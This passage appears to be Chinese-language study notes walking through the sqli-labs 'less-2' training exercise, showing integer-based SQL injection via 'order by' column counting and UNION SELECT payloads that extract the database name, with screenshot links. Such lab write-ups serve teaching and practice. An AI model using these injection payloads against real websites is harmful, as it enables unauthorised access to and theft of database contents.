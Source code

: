 ## less-2

根据提示，是整形注入

```sql
用order by测试，发现有3列
?id=1 order by 4--+会报错
```

![image-20201106201333439](sqli-labs1-20/image-20201106201333439-1604667081398.png)



**接下来就是使用union联合查询**

```sql
?id=-1 union select 1,2,3--+
```

![image-20201106201547214](sqli-labs1-20/image-20201106201547214-1604667081398.png)



接下来又是熟悉的爆库爆表爆列爆数据了

**爆库**

```sql
?id=-1 union select 1,database(),3--+
```

![image-20201106201838614](sqli-labs1-20/image-20201106201838614-1604667081398.png)

